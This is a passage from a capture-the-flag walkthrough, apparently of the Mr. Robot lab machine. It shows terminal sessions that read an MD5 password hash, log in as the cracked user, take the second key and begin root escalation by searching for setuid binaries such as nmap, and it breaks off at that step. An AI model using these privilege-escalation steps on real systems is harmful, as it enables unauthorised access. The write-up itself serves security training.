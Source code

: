     drwxr-xr-x 3 root  root  4096 Nov 13  2015 ..  
    -r-------- 1 robot robot   33 Nov 13  2015 key-2-of-3.txt  
    -rw-r--r-- 1 robot robot   39 Nov 13  2015 password.raw-md5  
    daemon@linux:/home/robot$ cat password.raw-md5  
    cat password.raw-md5  
    robot:c3fcd3d76192e4007dfb496cca67e13b  
    daemon@linux:/home/robot$   
    

  
A quick search revealed that the MD5 hash stands for
**_abcdefghijklmnopqrstuvwxyz_**  
  
  

    
    
    daemon@linux:/$ su - robot  
    su - robot  
    Password: abcdefghijklmnopqrstuvwxyz  
      
    $ whoami  
    whoami  
    robot  
    $ sudo -l  
    sudo -l  
    [sudo] password for robot: abcdefghijklmnopqrstuvwxyz  
      
    Sorry, user robot may not run sudo on linux.  
    $ ls  
    ls  
    key-2-of-3.txt password.raw-md5  
    $ cat key-2-of-3.txt  
    cat key-2-of-3.txt  
    822c73956184f694993bede3eb39f959  
    

  
We found two keys, let's go for the last one.  

## 4\. Getting root

Searching for setuid binaries is the answer.  
  

    
    
    $ find / -user root -perm -4000 2>/dev/null  
    find / -user root -perm -4000 2>/dev/null  
    /bin/ping  
    /bin/umount  
    /bin/mount  
    /bin/ping6  
    /bin/su  
    /usr/bin/passwd  
    /usr/bin/newgrp  
    /usr/bin/chsh  
    /usr/bin/chfn  
    /usr/bin/gpasswd  
    /usr/bin/sudo  
    /usr/local/bin/nmap  
    /usr/lib/openssh/ssh-keysign  
    /usr/lib/eject/dmcrypt-get-device  
    /usr/lib/vmware-tools/bin32/vmware-user-suid-wrapper  
    /usr/lib/vmware-tools/bin64/vmware-user-suid-wrapper  
    /usr/lib/pt_chown  
    $ /usr/local/bin/nmap --version  
    /usr/local/bin/nmap --version  
      